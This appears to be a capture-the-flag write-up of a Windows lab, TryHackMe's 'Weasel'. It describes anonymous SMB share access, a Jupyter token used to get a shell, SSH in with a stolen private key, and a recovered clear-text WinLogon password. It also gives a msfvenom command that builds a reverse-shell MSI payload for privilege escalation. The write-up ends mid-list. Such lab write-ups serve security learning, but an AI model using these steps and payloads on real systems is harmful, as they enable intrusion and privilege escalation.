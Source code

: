 `solution = https://www.youtube.com/watch?v=2Jv957vQhS4`

# Weasel
`url = https://tryhackme.com/room/weasel`
`date = 05/28/2023`

## Enumeration
---

1. **Network Enumeration**

* We can see that ports `22`, `135`, `139`, `445` & `3389` are open:
```bash
    22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp  open  microsoft-ds?
    3389/tcp open  ms-wbt-server Microsoft Terminal Services
```
* We now know that this is a windows machine. Port `3389` suggests that remote desktop services are open. The other ports are just other services that RDP might require like net-bios or msrpc.

* No website hosted - port `80`. But there's ssh open so that's that.

* The `all_ports` scan shows a few other tings like:
```bash
    Host script results:
    | smb2-security-mode: 
    |   311: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2023-05-28T04:09:13
    |_  start_date: N/A
```
2. **SMB Enumeration**

* Running the command --
```bash
smbclient --no-pass -L $IP
# No pass to login without a pass
# -L for listing the services on the client
```
The output is:
```bash
    Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	datasci-team    Disk      
	IPC$            IPC       Remote IPC
```
*Note -- This is my first Windows machine, so I am being explicit with all steps.*

* Now using a the same command, but with a little different syntax, we can see the insides of the file system `smbclient --no-pass //$IP/datasci-team`.

* This will open the promppt `smb: \>` where we can interact with this client. I can see different files, that are hosted on this server. I am using the `get` command to get the files that I find interesting:

```
BI002_2613_Cz-40-2_Acta-T34-nr25-347-359_o.pdf
Dillard_Living_Like_Weasels.pdf
'Long-Tailed_Weasel_Range_-_CWHR_M157_[ds1940].csv'
requirements.txt
weasel.ipynb
jupyter-token.txt
weasel.txt
```
* Port `8888` is not seen anywhere in the network scans, however, since there is a `jupyter-token.txt` file in the smb-share, a few things become clear.
    - Port `8888` is a port used for jupyter notebooks. going to `http://$IP:8888` will give us access to the jupyter page.
    - Jupyter can serve notebooks on a server just like any other file server. Users are required to login. `jupyter notebook list` will show the available notebooks.

## Exploitation & Post Exploitation
---

* **Jupyter Shell**
    - We can access this Windows machine using the shell on jupyter's web-page.
    - We can truly enumerate this machine from here now. We are greeted with the home directory of the jupyter system user. This is just like www-data. Out of the many files in the directory, one of the important ones is: `dev-datasci-lowpriv_id_ed25519`, which is a private key.
    - Now we can get this file & ssh into it.
* **Windows Shell**
    - Change the perms for the private key to 600 & then ssh into it : `ssh -i id_ed25519 dev-datasci-lowpriv@$IP`.
    - This gives us a windows shell. The windows machine can now be enumerated for more intel.
    - Now we can go to the desktop & cat out the user flag which is found here - `C:\Users\dev-datasci-lowpriv\Desktop` using the more command - `more user.txt`. We get `THM{w3as3ls_@nd_pyth0ns}`.

## PrivEsc

 * **WinPEAAS**
    - We can get winPEAAS from here - `https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/WinPeas.ps1`.
    - Performing curl is not working, hence we can do the python server method : `curl http://10.6.36.128:8000/a.ps1 --output a.ps1`.
    - I spent a day & I thought instead of winPEAAS I should try privescCheck.

 * **PrivescCheck**
```bash
+------+------------------------------------------------+------+       
| TEST | CREDS > WinLogon                               | VULN |       
+------+------------------------------------------------+------+       
| DESC | Parse the Winlogon registry keys and check whether    |       
|      | they contain any clear-text password. Entries that    |       
|      | have an empty password field are filtered out.        |       
+------+-------------------------------------------------------+       
[*] Found 1 result(s).


Domain   : DEV-DATASCI-JUP
Username : dev-datasci-lowpriv
Password : wUqnKWqzha*W!PWrPRWi!M8faUn
```

* PrivescCheck returns this output which shows leaked creds for the `dev-datasci-jup` user to be `wUqnKWqzha*W!PWrPRWi!M8faUn`.
* The solution video also talks about "always elevated" privs. For exploiting this we can get a `.msi` payload from msfvenom using the command:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LOCAL_IP LPORT=$LOCAL_P -f msi > buttstabber.msi
```


## Explaination Time !!
---

1. The main vulnerability here is that the smb server running has no password enabled.

2. Through this we could enumerate the file system & get access to a jupyter-token file.

3. It is through this file that we know, that a jupyter server is being run on the system on `port 8888`.

4. Visiting this page, we can access this server using the token.

5. Using the terminal we are logged in as the `dev-datasci@DEV-DATASCI-JUP` user which is a system user. However, it has the `uid = 1000` which does not make sense to me. Maybe this user has been created by the sys-adm.

6. 